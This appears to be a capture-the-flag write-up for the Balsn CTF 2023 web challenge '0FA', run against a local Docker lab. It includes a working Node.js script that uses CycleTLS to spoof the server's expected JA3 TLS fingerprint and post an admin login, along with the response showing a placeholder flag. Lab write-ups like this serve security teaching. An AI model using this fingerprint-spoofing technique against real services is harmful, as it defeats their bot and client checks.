

### 0FA - balsnctf 2023 - web



### Running the challenge locally

```
docker-compose up -d
```

You can now access the challenge at https://localhost:8787/

### Writeup

Looking at flag.php we have the following:
```
include_once("config.php");
fingerprint_check();
if(!isset($_POST['username']) || $_POST['username'] !== "admin")
    die("Login failed!");
```

This means that to get the flag we need to send the username POST parameter as admin and we have to bypass the following fingerprint_check function:
```
define("FINGERPRINT", "771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0");

function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

If you want to know more about JA3 fingerprinting I recommend the following resources:
- https://github.com/salesforce/ja3
- https://engineering.salesforce.com/tls-fingerprinting-with-ja3-and-ja3s-247362855967/

To spoof the JA3 fingerprint that the server is expecting I've used the following project:
- https://github.com/Danny-Dasilva/CycleTLS

And created the following code:
```
const initCycleTLS = require('cycletls');

(async () => {
  const cycleTLS = await initCycleTLS();

  const response = await cycleTLS('https://localhost:8787/flag.php', {
    body: 'username=admin',
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    headers: {"Content-Type": "application/x-www-form-urlencoded",},
    userAgent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0'
  }, 'post');

  console.log(response);
  cycleTLS.exit();
})();
```

To run this code go to the solution folder and run the following:
```
npm install
node attack.ts
```

Since the code is sending the expected username and spoofing the JA3 fingerprint we are able to retrieve the flag:
```
{
  status: 200,
  body: '<html>\n' +
    '<head>\n' +
    '    <title>Balsn CTF 2023 - 0FA</title>\n' +
    '    <meta charset="UTF-8">\n' +
    '    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.4/css/bulma.min.css">\n' +
    '</head>\n' +
    '<body>\n' +
    '  Here is your flag: BALSN{fake_flag}</body>\n' +
    '</html>',
  headers: {
    Connection: 'keep-alive',
    'Content-Type': 'text/html; charset=UTF-8',
    Date: 'Sun, 08 Oct 2023 17:41:54 GMT',
    Server: 'nginx/1.23.1'
  }
}
```